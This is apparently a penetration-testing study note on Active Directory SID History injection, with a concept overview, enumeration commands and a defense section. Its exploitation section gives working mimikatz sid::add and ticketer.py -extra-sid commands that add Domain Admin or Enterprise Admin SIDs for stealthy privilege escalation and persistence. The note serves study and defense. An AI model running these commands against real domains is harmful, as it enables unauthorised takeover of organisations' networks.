

# 13 - SID History Injection

## 1. Executive Summary

The **`sIDHistory`** attribute exists for domain migrations: it lets an account carry SIDs from a previous domain so it keeps access. Attackers abuse it as **stealthy persistence and privilege escalation** — inject the SID of a privileged group (e.g. **Domain Admins, 512**, or Enterprise Admins **519**) into an account's `sIDHistory`, and that account gets those privileges in its token **without being a visible member** of the group. It's quiet (group membership lists look clean) and powerful (works across domains in a forest via the same mechanism that makes intra-forest trust escalation possible).

## 2. Concept Overview

A token's authorization SIDs include the account's primary group + group memberships **+ everything in `sIDHistory`**. So `sIDHistory = S-1-5-21-<domain>-512` ⇒ Domain Admin rights at logon, even though `memberOf` shows nothing. Writing `sIDHistory` is normally restricted (it's a protected attribute), so injection is done with **DA/krbtgt-level access** (mimikatz/DCShadow) — making this primarily a **persistence** technique. Forged tickets can also carry SIDs via the **ExtraSids** field (golden ticket `/sids:`), the ticket-level equivalent.

## 3. Prerequisites / Enumeration

```bash
# Need DA / DCSync-level access to write sIDHistory (protected attribute)
Get-ADUser <user> -Properties sIDHistory | select sIDHistory
# Domain/forest SIDs for the privileged groups you want to inject
Get-ADDomain | select DomainSID
```

## 4. Exploitation

```bash
# Mimikatz — inject SID History into an existing account (DA required)
mimikatz # privilege::debug
mimikatz # sid::add /sid:S-1-5-21-<domain>-512 /sam:lowpriv     # add DA SID to lowpriv
#   (older: misc::addsid). Verify:
mimikatz # sid::query /sam:lowpriv

# Ticket-level (ExtraSids) — golden ticket carrying Enterprise Admin SID for cross-domain
ticketer.py -nthash <krbtgt> -domain-sid <childSID> -domain child.domain \
  -extra-sid <rootSID>-519 Administrator       # child→root forest escalation

# DCShadow can also set sIDHistory stealthily (see A-36 note 16)
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Quiet, durable: the account looks unprivileged in group listings but holds privileged SIDs every logon. Survives until `sIDHistory` is audited/cleared.

## 7. Post-Exploitation / Data Access
- Privileged token = DA/EA access; cross-domain via injecting the parent/root domain's 519 (Enterprise Admins).

## 8. Defense & Hardening
1. Audit `sIDHistory` across accounts (legitimately empty outside active migrations); alert on writes.
2. Enable **SID Filtering** on trusts (blocks injected foreign SIDs across trust boundaries); protect krbtgt/DCSync (the prerequisites).
3. Monitor mimikatz/DCShadow indicators; treat unexpected `sIDHistory` values as compromise.

## 9. Chaining & Related Notes
- Needs **[[15 - DCSync Attack]]** / DA first; stealth-writes via **[[16 - DCShadow Attack]]** (A-36).
- Ticket variant overlaps **[[09 - Golden Ticket Attack]]** (A-36) + **[[10 - Diamond and Sapphire Ticket Attacks]]**; forest escalation: **[[25 - Forest Trust Attacks]]** (A-36).

## 10. Tools
`mimikatz` (sid::add), `ticketer.py` (-extra-sid), `DCShadow`, PowerView (`Get-DomainObject sIDHistory`).
